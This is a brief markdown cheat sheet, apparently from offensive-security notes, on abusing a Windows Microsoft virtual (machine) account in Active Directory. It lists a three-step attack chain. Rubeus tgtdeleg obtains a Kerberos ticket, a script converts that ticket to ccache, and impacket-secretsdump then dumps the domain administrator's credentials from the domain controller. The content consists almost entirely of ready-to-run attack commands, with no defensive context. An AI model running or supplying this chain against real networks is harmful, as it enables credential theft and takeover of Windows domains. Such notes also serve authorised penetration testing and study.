 ```yaml
---
title: "Machine Account"
date: 2024-8-1
tags: ["machine account", "Microsoft virtual account", "active directory", "ad", "domain controller", "Windows", "rubeus", "kerberos"]
---
```


---
### Abuse #1: Microsoft virtual account

#### 1. Create a ticket from Microsoft virtual account

```powershell
.\rubeus.exe tgtdeleg /nowrap
```

#### 2. Convert kirbi to ccache (Back to Linux)

[RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)

```bash
python3 rubeustoccache.py <BASE64_TICKET> secrets.kirbi secrets.ccache
```

#### 3. Secrets Dump

```bash
export KRB5CCNAME=secrets.ccache
```

```bash
sudo ntpdate -s <DC> && impacket-secretsdump -k -no-pass -just-dc-user administrator
```

<br>